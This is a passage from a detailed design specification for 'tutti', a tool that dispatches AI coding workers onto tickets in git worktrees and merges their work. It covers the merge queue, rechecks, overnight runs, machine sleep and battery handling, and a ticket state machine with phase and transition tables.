Ruby's and the shell's quotes, and the like), the code in a string's holes (`${…}`, `#{…}`, `\(…)`, `$(…)`, a Python f-string's `{…}`) kept; a shell heredoc's lines are a string, with its holes where its delimiter isn't quoted, and OCaml's and Haskell's `'"'` is a character; an extension with no family (`vue`, `svelte`, whose markup is prose) keeps all its words. A log string saying `bd human respond` no longer places `Beads.respond` in a file, holding back a ticket that changes it behind one that doesn't. A function counts toward overlap only when the repository declares it: a function, type, constant, class, method or field a tracked source file defines, read by its look from the files' contents once per commit of the checkout, `Type.method` when both are declared. A library's or an everyday function (`Effect.fn`, `JSON.stringify`) stays in the footprint's line but holds no ticket apart and is placed in no file; with no source readable, every function counts. A running ticket's footprint also grows with the files its worktree has changed (`git diff --name-only <base>...HEAD` plus `git status`, read every 30 s with the ready poll). Unlike orchestra's hook-reported edits, this survives resumes and runs, and sees edits made with Bash.
6. **Per ticket**:
   - the worktree and branch (reused when an earlier attempt left work, and the worker told what it left)
   - the setup (`checks.setup.command`) in the worktree before its worker starts, within the merge check's time limit: always in a new one, and in one an earlier attempt left when the last setup there failed or didn't finish (`.tutti/run/setup.started`, written before it runs and removed once one works, so a quit that cuts it short has the next run set up again), or when the branch has changed a file `setup_files` names since it was last set up in the run. tutti doesn't rebase a reused worktree before its worker, so nothing else changes one; a ticket back from a question resumes its session in its worktree, with no setup. The first message says how the dependencies are installed. A setup that fails there starts no worker (`SETUP_FAILED`): the ticket is reopened if it wasn't open, keeps its worktree and the setup's output, and is `Waiting{setup}`, back in the queue but out of the run until a ticket merges or a probe ends an environment hold; it counts toward no `--limit`, and toward the environment hold as a worker failing at once does
   - the session (§4); settle; read the ticket; the outcome: closed, asked, deferred (after three verifier rounds with its last fix unverified, its worker given one more round first, §4.11), waits for merge, back in the queue for a blocker merged after its worktree was cut, still in progress (continue nudges, then `PAUSED`), closed with no commit
7. **The merge queue**:
   - `OFF_BRANCH`, `DIRTY_WORKTREE`, rebase (`REBASE_FAILED`, `MERGE_CONFLICT` with hand-back)
   - the git reads that steer a merge (what the worktree has checked out, its status, where the branch left the base, whether the base moved on during a hand-back, the main checkout's state) are asked again 3 s after a failure or a time-out, up to 3 reads, as orchestra asks git up to 3 times (`src/run/merge.ts`'s `steering`), and one that still fails is "can't tell", never on its branch, clean or the base not moved: a worktree git can't read sets its ticket aside for review (`GIT_FAILED: <id> closed, but git could not read the status of <worktree> (3 tries): …`), the other merges going on; the main repository git can't read blocks the ticket and holds the run (`GIT_FAILED`); a hand-back whose base git can't read goes back to its merge, which reads where its branch is again
   - the setup when `setup_files` changed; a conflict handed back after a rebase that brings in such a change tells the worker to run the setup once the rebase has finished, before the check, and its `RESOLVING` line says so
   - a merge that changes `checks.setup` in `.tutti/settings.json` on the base has the run use it from then on (`SETUP: …`); one that changes `requires` has the run take the new list and check it before the next ticket starts (§8.4's `requires`); one that can't be read is warned of (`SETTINGS_UNREAD`) and the setup and the requires list stay as they were
   - `check_fast` within its limit, counted awake (§3.3 "Time awake") (output kept, `FLAKY:` warnings, `CHECKS_FAILED` with hand-back)
   - a setup or check that passes but leaves uncommitted changes to tracked files in the worktree (an install that rewrites its lockfile, a check that formats files) sets the ticket aside, `DIRTY_WORKTREE` (`<id> closed, but its setup or check left uncommitted changes to <files> in <worktree>, so tutti/<id> passed with changes that would not merge; worktree left for review (…)`): what merges is the commit checked, not the files the check passed on, and git would refuse to remove the worktree after the merge (`CLEANUP_FAILED`). Its worktree's status is read after each passing check in its turn, and before it merges on a pass from earlier in the run (ahead of its turn, or on its worker's fix or resolution); an untracked file left there doesn't count
   - an untracked file the setup or check writes in the worktree (a coverage report or build output the project doesn't git-ignore) is kept in its `.tutti/run/check-wrote`, as each setup and merge check has the worktree's untracked files read before and after it, added to across checks and runs; when the merged worktree's only changes are files listed there, it is removed as one with none (set aside, below), where `git worktree remove` would want `--force` (`<id>: its setup or check left <files> untracked in <worktree>, removed with it`), its branch deleted only as merged, rather than left, `CLEANUP_FAILED`. An untracked file that was there before tutti's setup or check keeps the worktree as git has it: it may be work nobody committed. With no check command, a branch on top of the base has its worktree's status read before it merges too: uncommitted changes to tracked files set the ticket aside, `DIRTY_WORKTREE` (`<id> closed, but <worktree> has uncommitted changes to <files>, which would not merge with tutti/<id>; worktree left for review (commit or undo them, merge)`)
   - a ticket done (merged, by hand too, or closed with no change) whose worktree has no changes, or only files listed in its `.tutti/run/check-wrote`, has its worktree's folder moved into `.trash/` under the worktrees' folder, a rename on the same disk, and git's record of it pruned, its branch deleted as before; its files are deleted in the background, outside the merge queue (`src/run/trash.ts`): a worktree's `node_modules` alone is about half a gigabyte in thousands of files, which `git worktree remove` once took 15 minutes to delete, holding every merge behind it. A deletion that fails is a `CLEANUP_FAILED` warning naming the folder (`CLEANUP_FAILED: for <folder>: the folder of a merged worktree, set aside to be deleted, is left (<why>); rm -rf <folder> deletes it`), the ticket's line having said its worktree and branch removed, which git has forgotten. A worktree with other changes, or one git can't read, is handed to git in the merge step as before, which refuses one with changes; so is a folder that can't be moved, as on another disk. A deletion still under way as tutti exits is cut short, and the next run deletes what is left in `.trash/` as it starts, in the background too, a detail line for each (`deleted <folder>, a merged worktree's folder an earlier run left`); a ticket's ID can't start with a dot, so `.trash` names no worktree
   - a branch on top of the base already, as when nothing merged while its ticket ran, is checked too, set up first if a dependency file changed since its last setup, as orchestra 0.8.5 has it: no ticket reaches the base unchecked (`tutti/<id> is on top of <base> already: checking it with '<check>' before it merges`). A failure there is handed back or sets the ticket aside as on a rebased branch; a branch whose commits change nothing needs no check, and one the check passed on in this run, as its worker fixed it or resolved its rebase, isn't checked again
   - a hand-back's branch is checked once, on the base it merges onto, as orchestra 0.8.5 has it: when another ticket merged while its worker resolved its rebase or fixed its check, what the worker left goes back in line unchecked (`<id>'s worker finished the rebase, but <base> moved on meanwhile: rebasing tutti/<id> onto it before checking it`; `<id>'s worker committed <n commits>, but …` for a fix), and the merge rebases it and checks it there, a fix carried to that check as if checked in Fixing: a pass says `as its worker fixed it`, a failure is handed back again or sets the ticket aside with every attempt in its notes, and a conflict goes back to the worker as any does
   - a branch is rebased onto the base's commit the merge read, not onto the base's name, unlike orchestra, whose rebase takes the name: a commit made on the base by hand between the read and the rebase is rebased onto in the merge's next pass, so a rebase stopped on conflicts, the setup's diff of what the rebase brought and a hand-back's count of the branch's own commits all go by the commit the branch was rebased onto
   - a rebase moves only the branch it rebases: it runs with `--no-update-refs`, so a `rebase.updateRefs` in your git config doesn't move another branch that points into its commits (a backup, orchestra's `wt/<id>`), which putting the branch back wouldn't put back
   - a branch with merge commits beyond the base keeps them: it is rebased with `--rebase-merges`, its merges recreated on the base rather than flattened, a branch without merges rebasing in a line as before (tutti-e67w). Flattened, a `git subtree add --squash` branch replays the squashed commit, whose tree is the subtree's own root, at the repository's root, conflicting in every file both have (Fabrica's fab-mgi.3.34 conflicted in 18 and had to be merged by hand). git recreates a merge by merging its parents again, which loses what the merge itself changed (the subtree read in under its prefix, a conflict's resolution), so a merge whose tree isn't what git's own merge of its parents gives (`git merge-tree`; one of three parents or more whatever it holds) is replayed instead: the rebase is interactive, its todo rewritten by `src/services/Git.ts`' `rebaseMergesScript`, written to the worktree's git folder, into a pick of the merge's change on its first parent, which stops on conflicts as any pick does, for the worker to resolve with `git add` and `git rebase --continue`, then an exec that makes it the merge again, with its message, author and other parents. A rebase that still conflicts is handed back as any is; the fast-forward stays, the rebased branch on top of the base. The log's line says so: `rebased tutti/<id>, with its merges, onto <base>, which moved on while it ran`
   - a ticket merges only at the commit its check passed on, as orchestra has it: the commit checked is the branch's as the setup before the check starts, and the base is fast-forwarded to that hash, not to the branch's name. A commit made on the branch meanwhile, made by hand (your messages to its worker are held then, §4.3), is checked first (`tutti/<id> moved on to <commit> while its check ran on <commit>: checking it again`; `… after its check passed on <commit>: checking it again before it merges` when it lands between the check and the fast-forward); a branch that moves on during every check, or before every fast-forward, is blocked as a base that does is (`MERGE_CONFLICT: <id> closed, but tutti/<id> kept changing while its checks ran`), checked again 3 times at most each way. The ways are three, each with its own budget (`src/run/merge.ts`'s `budgets`): the base moving on during a check, the branch rebased onto it and checked again (`<base> kept changing`); the branch moving on during a check; and either moving on after the check passed, before the fast-forward, the merge prepared again (blocked as whichever moved). Each budget counts over the ticket's whole turn in the merge queue: a merge prepared again keeps what it spent, so a ticket's merge checks it at most 10 times (tutti-rvzn.16). A hand-back ends the turn; the merge of what its worker left is a new one
   - fast-forward (`MERGE_FAILED`, exit 6); cleanup; epics closed when their last subticket merges, up the tree; while the run still holds another subticket of the epic that isn't Done, the epic can't close yet, so bd isn't asked about it, and a subticket the run doesn't hold is bd's to judge. A fast-forward git refuses is `MERGE_FAILED` only when the branch no longer fast-forwards onto the base: when the base moved on since the merge read it (a commit made on it by hand), the branch is rebased and checked again (`<base> moved on to <commit> before tutti/<id> fast-forwarded onto <commit>: rebasing and checking it again before it merges`), up to 3 times, then the ticket is blocked (`MERGE_CONFLICT: <id> closed, but <base> kept changing while its checks ran`); when it still fast-forwards, as when git was kept from writing by another's `.git/index.lock`, the fast-forward is tried again 3 s later, up to 3 tries, then the ticket is blocked and the run held (`GIT_FAILED: tutti/<id> fast-forwards onto <base>, but git could not merge it (3 tries): …`)
8. **Recheck**: a ticket set aside for a failed check is checked once more after the base moves on, unless it failed in its own code. It takes a slot as a running ticket does, until its merge is over, and none is checked again while the run winds down or holds (a stop, or the usage limit), or while a solo ticket runs or is next, as orchestra's recheckTickets has it. One touched since it was set aside stays set aside, the log saying why (`<id> is not checked again: <why>; it stays set aside`): reopened, its worktree changed, a file left untracked there included (`<worktree> has untracked files: <files>`: the check would see it, the merge of its branch wouldn't), its branch moved, or its worker steered. One bd can't say is still closed keeps its recheck, waiting for the next look (`<id> is not checked again yet: bd could not say whether it is still closed: <why>; it is asked again at the next look`). A drain, or a run that ends stopped, names each ticket it keeps from its recheck (`<id> is not checked again in this run, as the run winds down; it stays set aside`), and a ticket set aside while the run winds down isn't promised one. Each time the base moves on, first, and once more as a run not quit ends, the run asks git of each ticket closed but not merged (set aside or blocked in the run, or labelled `unmerged` by an earlier one) whether it was merged by hand, as at the start: one that was is `Done`, merged by hand, its worktree and branch removed as after a merge unless the worktree has uncommitted changes, its label removed, and the tickets it blocks start, as orchestra 0.9.0's mergedByHand has it. A look in which bd couldn't say of a ticket whether it is closed doesn't count: the next asks again, though the base hasn't moved.
9. **Waits for merge**: a worker that stops with nothing done, having linked a blocker that hasn't merged, puts its ticket back in the queue. One that stops so, its ticket open or in progress, having linked a blocker the run merged after its worktree was cut (the blocker's merge commit isn't in the worktree's HEAD, which a worker that left nothing has at the commit it was cut from), as when the blocker merged in the seconds between its dispatch and its settling, puts its ticket back in the queue at once, `Queued` (reopened if it was in progress), as `WAITS_FOR_MERGE`'s tickets are once their blocker merges, its worktree and branch removed so that it starts again from the base's head, counting toward `--limit` once and toward no environment hold: the log says `<id> back in the queue: <blocker> merged after its worktree was cut from <short hash>; worktree and branch removed`, and its `phase` record's cause is `MergedSinceCut`. A blocker the base held when the worktree was cut, or one the run didn't merge, is no reason to start again: the ticket is handled as any left unfinished. A ticket set aside as its worker settled (deferred by its worker, or by tutti for one left unfinished) with nothing done, no commits beyond the base and a clean worktree, has its worktree and branch removed once triage has its evidence, as orchestra 0.8.1's: its line says `<id> deferred by its worker; nothing done, so its worktree and branch are removed` (`<id> still open -> noted and deferred; nothing done, …`) in place of `worktree <path> left open`, and a removal git refuses is `CLEANUP_FAILED`. In both, a worktree git can't read (an error, a time-out) counts as one with work in it: the ticket is set aside, its worktree kept, and the log says `<id>: git can't tell whether its worker left anything in <path>: <why>; read as work left in it`, rather than the ticket's fiber failing and the run holding with `GIT_FAILED`.
10. **Holds and stops**:
    - `HOLD` drains: no new tickets, the running ones finish
    - the stop reasons `PAUSED`, `BLOCKED` (lifted when its requests are answered, §4.3), `TICKET_LIMIT` (its time counted awake, §3.3), `DIRTY_TREE`, `GIT_FAILED`, `BEADS_FAILED`, `SETUP_PROBLEM` (a worker's first `system/init`, §4.1, exit 2), `LOGIN` (a worker's turn refused for Claude's login, §4.13, exit 2: it quits the run rather than hold it), …
    - `USAGE_LIMIT` (§4.12) holds until the reset and doesn't end the run
    - **An overnight run sets a stuck ticket aside** (`--overnight`, §8.2; `src/run/overnightAside.ts`; tutti-kkb.52), as orchestra's does: nobody is there to answer until the morning, so `PAUSED`, `BLOCKED` and `TICKET_LIMIT` don't hold it. The ticket is set aside as a failed check sets one aside: deferred, with a note saying what its worker did, what it waited on and what is kept (`bd undefer <id>` brings it back); its open requests denied by tutti, in nobody's name (`via: "overnight"`, the worker told `Denied by tutti, nobody being there to answer`), so that nothing answers them later; its worker interrupted if it is at a turn, and its session closed as any deferred ticket's (§4.8), which frees its slot for the next ticket; its worktree and branch kept, for review in the morning, and its session's ID in the note. The session is kept in `state.json` too, suspended with its why (`set aside overnight: BLOCKED`), which carry-over leaves alone (tutti-jml1): undeferred, the ticket comes back through `bd ready`, in the same run or a later one, and its start resumes that session in its kept worktree rather than draw a new one (not where its worktree and branch were removed meanwhile, the worktree made afresh), as orchestra leaves such a worker in its tab to carry on. Closed or deleted by hand instead, it never comes back through `bd ready`, so a run's start forgets its record, its worktree left as it is (`<id>, set aside by an overnight run, is forgotten: it is closed, so it won't be undeferred; worktree <path> left as it is`; tutti-dmxe); one `bd` can't show is kept. It is told why it was stopped, that a request it waited on was denied, and to claim its ticket again and carry on (`RESUMED`, the `resumed` record's `why: set_aside`). A session that can't be resumed is said so (`<id>'s session <session>, kept as an overnight run set it aside, could not be resumed (…); starting a new one`), and the ticket starts a new session in that worktree, told what the earlier attempt left there. The line: `<id>: its worker was blocked on a permission request for over 4m -> noted and deferred, the run being an overnight one (BLOCKED); worktree <path> kept for review` (`its worker was still working after the 2h ticket limit`, `its ticket was still in_progress, its worker idle for 10m`). Its phase is `Deferred{set aside overnight: BLOCKED}`, its row `↷ deferred` with `(set aside overnight: BLOCKED)` before its title, the `deferred` record's `detail` the same; the run's summary counts it set aside, and the reviewer has it with the tickets set aside, its notes with it. A worker handed a conflict or a failed check (`Resolving`, `Fixing`, §4.7) and blocked on a request for 4 minutes ends its hand-back instead (tutti-bqr0): its open requests denied in the same way, its worker stopped and told that nobody was there to answer, so tutti denied the request and ends the hand-back, and the ticket set aside as a hand-back not done in time is, `Blocked{MERGE_CONFLICT}` with its rebase aborted and its branch put back, or `Review{CHECKS_FAILED}`, its line and notes saying `its worker was blocked on a permission request for over 4m, and nobody was there to answer, the run being an overnight one (BLOCKED): its request was denied`; what git shows done already (the rebase finished, a fix committed) is taken as it is and checked, as past `resolve_timeout`. A question that is `maintainer_only`, or has no options, stays `Asked` as in any run: `--auto-answer` doesn't take it, and the run goes on without its ticket. The stops that make carrying on unsafe, or would only fail again, still stop an overnight run, as any run: `DIRTY_TREE`, `GIT_FAILED` in the main checkout, `MERGE_FAILED`, `ENVIRONMENT`, `REQUIREMENTS_MISSING`, `BEADS_FAILED`, a worker that can't start (`START_FAILED` rows, `WORKTREE_FAILED`), `SETUP_PROBLEM`, `LOGIN`, `PANIC`, and the usage limit held past `--usage-limit-wait` (`USAGE_LIMIT`). In a run without `--overnight`, nothing changes.
    - exit codes as orchestra's, except: 4 covers Beads and git, and orchestra's `TERMINAL_FAILED` is gone, on purpose, with no Agent SDK word in its place: a session that doesn't start is `START_FAILED`, and a row of them holds the run as `ENVIRONMENT` (item 11, exit 7); a session that can't be resumed leaves its ticket for review (`WORKER_GONE`, §4.8) rather than stop the run; 8 is new, `USAGE_LIMIT` (§4.12)
11. **Environment hold**: 2 tickets in a row settled within 2 minutes with nothing done, or whose setup failed before their worker could start, or whose session didn't start (`START_FAILED` from the Agent SDK: a Claude Code that can't be launched, a session that never begins), or blamed on the environment by triage. Reopen those whose workers failed or didn't start (those whose setup failed are back in the queue already), probe once, exit 7; a probe that passes takes both again. `UsageLimited` workers never count.
12. **The full check** after a run that ended by itself and merged something: its own worktree, the setup first, the dashboard's Current saying which of them runs, its command and time, and its load line naming its memory `full check` (§7.2), until it ends whatever its outcome; `FULL_CHECK_FAILED` files a P2 ticket per suite; a failed setup files none, nor does a check or setup that couldn't be run (it didn't start, or its output couldn't be kept), which is `FULL_CHECK_NOT_RUN`, a `full_check` record `not run`. A run killed while its full check ran (kill -9, a crash) never removes that worktree, which `git worktree prune` keeps while its folder is there, so the next run removes the `check-full-*` folders under the worktrees' folder as it starts, a detail line for each (`CLEANUP_FAILED` for one it can't remove); a ticket's worktree, on its branch, is kept whatever its name.
13. **Organs**: triage in the background per deferred ticket; the predictor in the background; the reviewer at the end; the scout for `init`. `--feature` has none: it talks the feature through in the Interview view (§4.10), as orchestra 0.8.x dropped the screen and plan organs (tutti-kkb.60).
14. **The end** (D19). Nothing left to start or merge ends the run, except while workers wait on you.
    - **With a dashboard**, a run whose only remaining work is open attention requests doesn't end. It shows a box: `Everything else is done. 2 workers wait for you: tut-9a1 (Allow Bash(rm -rf build)?), tut-7k2 (a question)`.
      - A conflict hand-back waiting for a steered worker (§4.3) keeps it open too, named `tut-3c4 (a merge conflict waits for you)`; handing it over, or releasing the worker, lets it merge, and `q` leaves it `Blocked`.
      - Answering lets them carry on; the run continues, and they may finish and merge.
      - `q` ends the run, suspending them (§4.8).
      - The workers that stopped the run (`PAUSED`, `TICKET_LIMIT`) don't keep it open; they are suspended.
    - **In plain mode**, the run ends as usual and suspends them. `tutti answer` works for as long as the run goes.
    - **Then**: the summary (the run's figures under its totals, §7.1), the closing line (a run that ended by itself adds `SETUP_WAITS: …` for the tickets still `Waiting{setup}`, each with where its setup's output is, leaving out one bd failed to reopen), the scope line (`SCOPE_DONE`, `SCOPE_OPEN`, which says `its setup failed` for such a ticket), the report, notifications, the event stream's `end`.
15. **The machine's sleep** (tutti-dhyy): each sleep the run notices (§3.3 "Time awake") is said with a log line and a `slept` record (§10), `SLEPT: the machine slept 34m (14:03-14:37); checks and limits don't count it`, and, the first time in a run that doesn't keep the machine awake (`keep_awake` false, §8.2), the detail line under it says how to prevent it: `keep_awake is false for this run, as the START block said: set it true to keep the machine awake`. On macOS the line names the sleep's cause (tutti-abem): once a sleep is noticed, the run reads `pmset -g log` (`src/run/sleepCause.ts`, its `SleepCauses` source given by the run's layers, none in tests but their own) for the `Entering Sleep state due to '<reason>'` line nearest the sleep's start, within a minute, and adds its reason in words after the times: `Clamshell Sleep` is `lid closed`, `Low Power Sleep` `battery low`, `Idle Sleep` `idle`, `Software Sleep` `asked to sleep`: `SLEPT: the machine slept 4m (09:41-09:45, lid closed); checks and limits don't count it`. Nothing is added when no line matches or its reason is another (a maintenance sleep), when pmset fails or takes more than 15 s awake, or off macOS. pmset's log is the system's text: a line counts only as pmset writes it, with a date and UTC offset that read, its reason is matched against the four, and only tutti's words reach the line (§7.10). A lid-closed sleep in a run kept awake adds a detail line, `keeping the machine awake can't prevent a closed lid's sleep: keep the Mac on power with an external display, or run sudo pmset -a disablesleep 1 (and 0 after)`; in a run not kept awake, a lid-closed sleep takes no hint to keep it awake, which wouldn't have prevented it, and the next sleep of another cause does. The run's figures' Time line ends with the time asleep (`machine asleep 34m19s`, §7.1). A sleep before the run began (at the start question, say) is said as the run begins.
16. **The battery** (tutti-yhjt): a run on a laptop's battery goes as long as the battery does, and a Mac run flat sleeps (`Low Power Sleep`) or shuts down under it. The run reads the battery's level and whether the machine draws on it, on macOS from `pmset -g batt` (the source line, `Now drawing from 'Battery Power'`, says whether; without it, the battery's state, `discharging`), on Linux from `/sys/class/power_supply/BAT*/capacity` and `status` (their mean level, discharging when one is `Discharging`); a machine without a battery, or another system, reads none (`src/run/battery.ts`). A run that starts on battery says so in its START block: `on battery (62%): plug in to keep the run going`. While the run goes it reads the battery once a minute, counted awake (§3.3), each reading within 10 s awake; a reading that fails, or takes longer, changes nothing. Discharging, at 20% and again at 10% it says so once each per discharge, the lowest threshold it is at or under (one read at 8% straight after 30% says 10% alone): a log line and a `battery` record (§10), `BATTERY: 10% left, not charging: plug in or the Mac will sleep` (`the machine` off macOS), which at 10% notifies, `Battery 9% left · plug in to keep the run going` (§7.9); and while it stays low, the dashboard's warning line shows the line at the level last read. Plugged in, the notice goes, and the next discharge says each threshold again. The run reads it through `Battery`, a `Context.Reference` none of whose readings a run sees unless its layers give the live source (`src/main.ts`); its test layer (`src/testing/Battery.ts`) reads what a test sets. `--overnight`'s pre-flight warning (item 2, tutti-kkb.46), with the level and the lid's note (`lidNote`), is the start's; this is every run's, as it goes.

Removed: everything about tabs, panes, workspaces, terminals, screens, other agent kinds, prompt pasting, and hook record files (§4.3).

Changed:

- **`INTERRUPTED`** means the run was quit. Its workers' turns were interrupted and their sessions saved (§4.8). No worker is "left running".
- **`AGENT_BUSY`** goes: there is no live worker to adopt.
- **Branches** are `tutti/<id>` (§11).
- **Tab names in log lines** become worker IDs: `RESOLVING: tutti/<id> conflicts with <base> in <files>; handed back to its worker`.

### 5.1 The ticket state machine

Every ticket a run takes up moves through a **state machine**: a fixed set of **phases** and the transitions allowed between them. A ticket can pass through many phases, some of them more than once, before it is merged and finally closed. For example, it can be picked up, worked on, wait its turn to merge, start merging, go back to its worker to resolve a conflict, wait in line again, and merge.

orchestra's dashboard already shows these phases (`▶ working`, `◼ to merge`, `◆ merging`, `⟳ resolving`, `⟳ fixing`, `✓ done`, …), though its code never states them as one machine. In tutti they are an explicit, typed machine. The run loop drives it, and everything else reads it: the dashboard's rows, cards and totals, the log, the event stream, notifications and the run report.

**Two layers:**

- **The phase** says where the ticket is in the run. The run loop owns it, and changes it only through the transitions below.
- **The worker's state** (§4.2) says what the ticket's worker is doing. It refines the phases in which a worker is at work (`Working`, `Resolving`, `Fixing`) and never changes the phase by itself. For example, a worker running the tests shows `▶ testing` while its ticket stays `Working`. The phase doesn't carry it: RunView works a Working ticket's activity out from its worker's state and open requests each time it is projected (`src/run/runView.ts`'s `activityOf`), and the ledger keeps only the phase.

**Beads keeps its own status**, separate from the phase. A worker claims its ticket (`in_progress`) and closes it (`closed`) before tutti merges it. So a ticket can be closed in Beads while its phase is `ToMerge`, `Merging`, `Resolving`, `Fixing` or `Blocked`. The phase is the run's truth, and Beads' status is one of the inputs that move it.

A ticket is finished when its phase is `Done`: closed in Beads, merged into the base, and with its worktree, branch and session gone. Epics never enter the machine, since they are never dispatched. tutti closes an epic when its last child reaches `Done` (§5).

#### The phases

| Phase | Means | Row | Card status | Counts under |
|---|---|---|---|---|
| `Queued` | ready, waiting for a free slot | none | none | In queue |
| `HeldBack{why}` | ready, but waiting for something other than a slot. `why` is one of: `overlap` (its footprint overlaps a running ticket's), `parent` (its subtickets aren't all merged), `merge` (a blocker, or the ticket it was filed from, isn't merged yet), `solo` (a solo ticket runs or is next) | none | none | In queue's `held back` |
| `Working` | picked up, with its worker at it | `▶ working`, or the worker's activity: `▶ editing`, `▶ reading`, `▶ testing`, `▶ subagent`, `▶ starting`, `▶ retrying`, `■ allow?` (a permission request), `■ answer?` (a question it asked), `◷ limit` (a usage limit) | the worker's state (§4.2) | Workers |
| `ToMerge{place}` | its work verified, waiting for its turn in the merge queue. `place` 1 is next | `◼ to merge` | `to merge (2nd)` | not counted yet |
| `Merging{step}` | its merge under way. `step` is `rebase`, `setup`, `check` or `fast-forward` | `◆ merging` | `merging`; the action line names the step (`running the check on main`) | not counted yet |
| `Resolving{attempt}` | its rebase stopped on conflicts, which were handed back to its worker | `⟳ resolving` | `resolving` | Workers |
| `Fixing{attempt, afterResolution}` | its check failed on its branch before it merged, and the failure was handed back to its worker | `⟳ fixing` | `fixing check` | Workers |
| `Done{merged \| noChange}` | merged (with its commit), or closed with no change of its own to merge | `✓ done` | none | Completed |
| `Asked{question}` | waits on a question ticket for you | `? for you` | none | Needs you |
| `Waiting{for}` | back in the queue until a blocker merges (`WAITS_FOR_MERGE`), reopened by an environment hold (`probe`), or its worktree's setup failed before its worker started (`setup`, until a ticket merges or a probe passes); `for` is a tagged union (`WaitFor`: `Blockers{ids}`, `Setup`, `Probe`, `SetupProblem`), so a blocker named `setup` or `probe` is a blocker, and the event stream's `why` gives the IDs joined with `, ` or the name | `◷ waiting` | none | nowhere, not even In queue; `setup` counts in In queue's `setup failed` (and in queue records' `held_by.setup`) |
| `Deferred{why}` | set aside: deferred by its worker or by tutti; `set aside overnight: <stop>` when an overnight run set it aside (§5 item 10) | `↷ deferred`, with `(set aside overnight: BLOCKED)` before the title of one an overnight run set aside; triage's verdict replaces its note once in | none | Set aside |
| `Review{why}` | left for review: `CHECKS_FAILED`, closed without a commit, `DIRTY_WORKTREE`, `REBASE_FAILED`, `OFF_BRANCH`, `GIT_FAILED` (git couldn't read its worktree), … | `! review` | none | Set aside |
| `Blocked{why}` | its work is done, but it can't merge until you act: a conflict left unresolved (`MERGE_CONFLICT`), `DIRTY_TREE`, `GIT_FAILED` or `MERGE_FAILED` | `■ blocked` | none | Needs you |
| `Stopped{why}` | it stopped the run (`PAUSED`, `TICKET_LIMIT`), or its worker was still at it when the run ended. Its session is suspended (§4.8) | `■ stopped` | none | nowhere |

**Needs you** counts each ticket once: those `Asked` or `Blocked`, and the `Working` ones whose worker waits on you (`■ allow?`, `■ answer?`).

**One table counts the phases.** What each phase counts as, its total above, what the run's end notice counts it as (§7.9), the reviewer's section it is in and its mark on the wind-down line, is one table, `phaseFacts` in `src/run/phase.ts`, which every place that counts tickets reads, so the dashboard and the notification say the same of a ticket. The same table says everything else the run asks of a phase: whether the run is still at it (running), has a card, is at work, busy, past its work, may be closed and not merged, ready, in the queue; the `ticket_end` outcome it ends a ticket's part in the run with; whether that part is over for good; the phase of orchestra's its time counts in (§10); its session's lifetime (§4.8); and its row's mark and word. A phase without an entry, or an entry without one of these, doesn't compile, and the ledger, the holds, the schedule, the sessions and the tickets table keep no list of phases of their own. A ticket's worker number follows its session's lifetime there, taking a ticket set aside after a failed check as one that may be checked again, as the ledger doesn't see the merge queue's rechecks. The reviewer's sections are closed (`Done`), set aside (`Asked`, `Waiting`, `Deferred`, `Review`, `Blocked`) and in progress as the run stopped (`Working`, `ToMerge`, `Merging`, `Resolving`, `Fixing`, `Stopped`); `Queued` and `HeldBack` are in none, as the reviewer counts the tickets still ready from `bd ready`.

**Final or not.** Only `Done` is final. A ticket can leave a run in any phase except `Working`, `Resolving`, `Fixing` and `Merging`. At the end of a run those become `Stopped`, except that a merge under way finishes its protected step first (§3.4), and one not yet at it goes back to `ToMerge` before it stops.

**The next run** picks a ticket up again where its phase left it. Through `bd ready` it comes back in `Queued`. Through carry-over it comes back in one of three phases:

- `Working`, its session resumed (§4.8)
- `Asked`, still waiting on its question
- `ToMerge`, if it was closed but not merged (labelled `unmerged`)

#### The transitions



The table is the authority. A transition it doesn't list doesn't happen.

| From | To | When | Recorded as |
|---|---|---|---|
| ready in `bd ready` | `Queued` | the ready poll finds it | `queue` |
| `Queued` | `HeldBack` | its footprint overlaps a running ticket's; its subtickets aren't all closed and merged; a blocker, or the ticket it was filed from, isn't merged; a solo ticket runs or is next | the log's `skipping …` or `… waits: …`; `queue` |
| `HeldBack` | `Queued` | what held it is gone | `queue` |
| `Queued`, `HeldBack` | out of the run | `bd ready` no longer lists it: closed, deferred or blocked outside the run. It leaves the ledger, and counts nowhere; the ready poll queues it anew if it is ready again | `queue` |
| `Queued` | `Working` | a slot is free and it is the highest-priority ticket not held back | `dispatch` |
| `Working` | `ToMerge` | its worker settled with the ticket closed, a commit naming it, and its worktree clean and on its branch | `phase` |
| `Working` | `Done{noChange}` | closed with no commits of its own and a clean worktree, or with commits that together change nothing | `closed` (`no change to merge`) |
| `Working` | `Asked` | its worker filed a question ticket that blocks it, then settled | `asked` |
| `Working` | `Waiting` | its worker stopped with nothing done, having linked a blocker that hasn't merged | `waits` |
| `Working` | `Queued` | its worker stopped with nothing done, having linked a blocker the run merged after its worktree was cut: its worktree and branch removed, it starts again from the base's head, counting toward `--limit` once | the log's `<id> back in the queue: <blocker> merged after its worktree was cut from <short hash>; …`; `queue` |
| `Working` | `Waiting{setup}` | the setup failed in its worktree before its worker could start (`SETUP_FAILED`) | `warn` |
| `Working` | `Waiting{setup problem}` | its worker's first `system/init` showed a setup problem (§4.1): reopened, out of the run, which stops (`SETUP_PROBLEM`) | `stop` |
| `Working` | `Deferred` | its worker deferred it, or tutti set it aside as it started (`BAD_TICKET_ID`, `RUN_FILES_OUTSIDE`, a start that failed), or an overnight run set it aside rather than hold for `PAUSED`, `BLOCKED` or `TICKET_LIMIT` (`set aside overnight: <stop>`, §5 item 10) | `deferred` |
| `Working` | `Review` | closed without a commit naming it while it has changes, left off its branch, … | `warn` with `aside` |
| `Working` | `Stopped` | it stopped the run (`PAUSED` after the nudges and the idle grace; `TICKET_LIMIT`; never in an overnight run, which sets it aside, §5 item 10), or the run ended with its worker at it | `hold`, `stop`, `suspended` |
| `Asked` | `Working` | its question is answered and a slot is free for it (§5's Scheduling): its session is resumed and told so; answered by `--auto-answer` (below), the message names the option tutti chose | `answered`, `resumed` |
| `Waiting` | `Queued` | the blocker merged, or the environment probe passed; for `Waiting{setup}`, a ticket merged since its setup failed, or the probe passed | `queue` |
| `Deferred` | `Waiting` | an environment hold reopened it: it failed at once and did nothing | `reopened` |
| `Deferred` | `Queued` | undeferred outside the run (`bd undefer`, as the notes of a ticket tutti sets aside say, or its deferral's date passed): a ready poll found it gone from `bd ready` once its worker's fiber ended, and a later one, the run not holding, finds it back. One an environment hold reopens itself, which it does once the run holds, takes the `Waiting` row instead. One bd couldn't defer (`DEFER_FAILED`), which `bd ready` still lists, stays out of the run. It starts again as a new dispatch, counting toward `--limit` again | the log's `<id>: undeferred; back in the queue`; `queue` |
| `ToMerge` | `Merging` | its turn: every ticket ahead of it has merged or left the queue | `phase` |
